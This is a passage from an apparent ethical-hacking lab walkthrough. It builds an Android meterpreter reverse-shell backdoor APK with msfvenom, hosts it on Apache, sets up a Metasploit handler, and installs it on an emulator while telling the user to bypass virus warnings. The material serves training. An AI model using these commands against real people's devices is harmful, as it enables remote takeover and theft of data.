	3. Click the MATE Terminal icon at the top of the Desktop window to open a Terminal window.
	
	4. A Parrot Terminal window appears. In the terminal window, type sudo su and press Enter to run the programs as a root user.
	5. In the [sudo] password for attacker field, type toor as a password and press Enter.
The password that you type will not be visible.
	6. Now, type cd and press Enter to jump to the root directory.
	
	7. In the Parrot Terminal window, type service postgresql start and press Enter to start the database service.
	
	8. Type msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=10.10.1.13 R > Desktop/Backdoor.apk and press Enter to generate a backdoor, or reverse meterpreter application.
This command creates an APK (Backdoor.apk) on Desktop under the Root directory. In this case, 10.10.1.13 is the IP address of the Parrot Security machine.
	
	9. Now, share or send the Backdoor.apk file to the victim machine (in this lab, we are using the Android emulator as the victim machine).
In this task, we are sending the malicious payload through a shared directory, but in real-life cases, attackers may send it via an attachment in an email, over Bluetooth, or through some other application or means.
	10. Execute the below commands to create a share folder and assign required permissions to it:
	• Type mkdir /var/www/html/share and press Enter to create a shared folder
	• Type chmod -R 755 /var/www/html/share and press Enter
	• Type chown -R www-data:www-data /var/www/html/share and press Enter
	11. Now, type service apache2 start and press Enter to start the Apache web server.
	
	12. Type cp /root/Desktop/Backdoor.apk /var/www/html/share/ and press Enter to copy the Backdoor.apk file to the location share folder.
	
	13. Type msfconsole and press Enter to launch the Metasploit framework.
	14. In msfconsole, type use exploit/multi/handler and press Enter.
	
	15. Now, issue the following commands in msfconsole:
	• Type set payload android/meterpreter/reverse_tcp and press Enter.
	• Type set LHOST 10.10.1.13 and press Enter.
	• Type show options and press Enter. This command lets you know the listening port (in this case, 4444), as shown in the screenshot.
	
	16. Type exploit -j -z and press Enter. This command runs the exploit as a background job.
	
	17. Click Android to switch to the Android emulator machine.
	18. If the Android machine is non-responsive then, click Commands icon from the top-left corner of the screen, navigate to Power --> Reset/Reboot machine.
If Reset/Reboot machine pop-up appears, click Yes to proceed.
	
	19. In the Android Emulator GUI, click the Chrome icon on the lower section of the Home Screen to launch the browser
	
	20. In the address bar, type http://10.10.1.13/share and press Enter.
If a Browse faster. Use less data. notification appears, click No thanks.
If a pop up appears, click Allow.
	21. The Index of /share page appears; click Backdoor.apk to download the application package file.
	
	22. After the download finishes, a notification appears at the bottom of the browser window. Click Open to open the application.
If Chrome needs storage access to download files, a pop-up will appear; click Continue. If any pop-up appears stating that the file contains a virus, ignore the message and download the file anyway.
In Allow Chrome to access photos, media, and files on your device?, click ALLOW.
If a warning message appears at the lower section of the browser window, click OK or Download anyway.
	